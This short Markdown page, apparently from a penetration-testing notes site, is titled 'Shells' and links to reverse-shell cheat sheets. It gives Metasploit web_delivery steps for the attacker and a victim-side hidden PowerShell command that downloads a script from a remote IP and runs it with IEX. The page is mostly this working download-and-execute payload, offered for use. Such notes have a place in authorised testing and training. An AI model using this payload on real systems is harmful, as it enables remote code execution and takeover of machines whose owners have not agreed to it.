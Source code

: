 ```yaml
---
title: Shells
category: Exploitation
order: 97
---
```


https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)


> **Script Web Delivery** 
On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}
    


